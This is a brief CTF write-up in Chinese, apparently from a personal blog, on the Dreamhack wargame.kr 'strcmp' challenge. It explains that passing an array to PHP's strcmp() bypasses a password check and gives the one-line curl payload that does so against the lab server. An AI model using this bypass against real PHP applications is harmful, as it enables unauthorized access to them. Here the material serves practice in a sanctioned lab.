 ```yaml
---
title: wargame.kr strcmp
published: 2025-02-20
updated: 2025-07-09
description: "Dreamhack Blitz CTF #9"
image: ""
tags: ["CTF Writeup", "Dreamhack", "Web"]
category: "Dreamhack"
draft: false
---
```


# [wargame.kr]strcmp

題目

> if you can bypass the strcmp function, you get the flag.

![index](/assets/dreamhack/[wargame.kr]strcmp/image.png)

查看原始碼

![source code](/assets/dreamhack/[wargame.kr]strcmp/image-1.png)

這是 PHP strcmp 漏洞，strcmp()在比較兩個字串時，如果相等就會回傳 0，提供 NULL 或 array 可能會讓 strcmp() 運行異常。

```sh
curl -X POST http://host1.dreamhack.games:9344/ -d "password[]="
```

![flag](/assets/dreamhack/[wargame.kr]strcmp/image-2.png)
